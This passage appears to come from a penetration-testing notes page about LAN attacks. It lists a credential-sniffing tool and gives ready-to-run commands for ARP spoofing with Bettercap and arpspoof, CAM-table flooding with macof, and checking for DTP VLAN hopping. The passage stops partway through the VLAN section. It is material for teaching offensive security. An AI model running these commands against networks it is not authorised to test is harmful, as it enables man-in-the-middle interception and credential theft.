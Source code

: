 ### Wireshark

Obviously.

### Capturing credentials

You can us tools like [https://github.com/lgandx/PCredz](https://github.com/lgandx/PCredz) to parse credentials from a pcap or a live interface.

## LAN attacks

### ARP spoofing

ARP Spoofing consist on sending gratuitous ARPResponses to indicate that the IP of a machine has the MAC of our device. Then, the victim will change the ARP table and will contact our machine every time it wants to contact the IP spoofed.

#### **Bettercap2**

```bash
arp.spoof on
arp.ban on # No ipv4-redirect
arp.spoof.targets
arp.spoof.whitelist
arp.spoof.internal #Spoofed local connections (by default only Victim <--> Gateway
```

#### **Arpspoof**

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -t 192.168.1.1 192.168.1.2
arpspoof -t 192.168.1.2 192.168.1.1
```

### MAC Flooding - CAM overflow

Overflow the switch’s CAM table sending a lot of packets with different source mac address. When the CAM table is full the switch start behaving like a hub \(broadcasting all the traffic\).

```bash
macof -i <interface>
```

In modern switches this vulnerability has been fixed.

### 802.1Q VLAN

#### Dynamic Trunking

Many switches support the Dynamic Trunking Protocol \(DTP\) by default, however, which an adversary can abuse to **emulate a switch and receive traffic across all VLANs**. The tool [_dtpscan.sh_](https://github.com/commonexploits/dtpscan) can sniff an interface and **reports if switch is in Default mode, trunk, dynamic, auto or access mode** \(this is the only one that would avoid VLAN hopping\). The tool will indicate if the switch is vulnerable or not.
